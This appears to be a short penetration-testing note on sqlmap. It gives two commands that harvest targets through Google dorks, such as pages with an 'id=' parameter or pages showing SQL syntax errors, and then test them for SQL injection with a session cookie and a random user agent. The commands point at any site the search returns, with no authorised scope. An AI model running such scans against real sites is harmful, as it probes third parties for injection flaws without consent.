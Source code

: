# SQLMap

## Google Dork Endpoints

```
$ sqlmap -g "inurl:\"<parameter>=\" [site:website.com] ext:\(php \| aspx \| asp \| jsp \| js\) inurl:&?" --cookies="<google_cookies_session>" -f --random-agent
```

## Syntax Error SQL Dorks

```
$ sqlmap -g "inurl:\".php?id=1\" intext:\"You have an error in your SQL syntax\"" --cookies="<google_cookies_session>" --random-agent
```

---
## References

- [[Common SQL Parameters|Google Dorking: Common SQL Parameters]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x05 - Sensitive Data Exposure/Helpers/Dorks/Panels|Google Dorking: Panels]]

- [[SQL Syntax Errors|Google Dorking: SQL Syntax Errors]]